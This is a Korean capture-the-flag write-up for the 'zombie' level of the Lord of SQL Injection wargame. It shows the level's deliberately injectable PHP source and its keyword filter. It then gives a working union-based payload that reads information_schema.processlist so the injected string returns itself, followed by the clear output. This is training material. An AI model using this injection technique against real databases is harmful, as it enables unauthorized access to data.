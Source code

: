 ```yaml
---
title: "[Lord of SQL Injection] LoS - zombie 문제풀이"
date: 2018-09-18
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


핳핳 드디어 거의 끝이 보인다!
이번 문제는 `zombie`이다.

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------
query : select pw from prob_zombie where pw=''
-------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

처음엔 이 문제 보고 `이 전 문제 푼거랑 똑같이 풀면 되겠다!` 생각했다.
근데 `ace`에 필터링이 있어서 `replace`를 사용을 못하더라.
그래서 어떻게 풀지... 고민하는데 내 옆에 있던 `웹짱해커`님이 `ㅎㅎ 겁나 쉽게 풀 수 있는데~~` 이러고 약올렸다. ㅂㄷㅂㄷ

화나는 건 이렇게 약올리는데 난 방법을 모르겠는거다!
어쨌든 어찌어찌 풀긴 했는데, `information_schema`의 테이블 이름을 다 외우고 있어야되나 싶은 생각이 들었다.
`information_schema` 데이터베이스를 보면 `processlist`라는 테이블이 있다.
이 테이블에는 현재 실행중인 쿼리문이 저장되어 있다.
실제 내 서버에서 확인해 본 결과이다.  

```bash
mysql> select * from processlist;
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| ID | USER | HOST      | DB                 | COMMAND | TIME | STATE     | INFO                      |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
| 24 | root | localhost | information_schema | Query   |    0 | executing | select * from processlist |
+----+------+-----------+--------------------+---------+------+-----------+---------------------------+
1 row in set (0.00 sec)
```

`INFO` 컬럼에 내가 방금 입력 한 `select * from processlist`가 있는 것을 알 수 있다.
그렇다면 내가 문제를 풀기위해 입력하는 쿼리도 이 `processlist`에 들어가 있을테니, 그 `processlist`에서 데이터를 추출 해 내가 입력 한 부분만 잘라내면 그 결과가 똑같이 나오게 될 것이다.  

```plain
?pw=' union select substr(info, 38, 72) from information_schema.processlist#
```

위와 같이 넘겨준다면, `processlist`의 `info` 컬럼에 `select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#` 가 저장되어 있을 것이다.
이 때, `substr(info, 38, 72)`를 `select`하도록 해, 내가 입력 한 `' union select substr(info, 38, 72) from information_schema.processlist#`를 뽑아 오도록 하면 된다.
힣 `zombie`도 처치했다!  

```php
----------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select pw from prob_zombie where pw='' union select substr(info, 38, 72) from information_schema.processlist#'
----------------------------------------------------------------------------------------------------------------------------------------------------------------

Pw : ' union select substr(info, 38, 72) from information_schema.processlist#
ZOMBIE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

---

```plain
ZOMBIE Clear!!
```
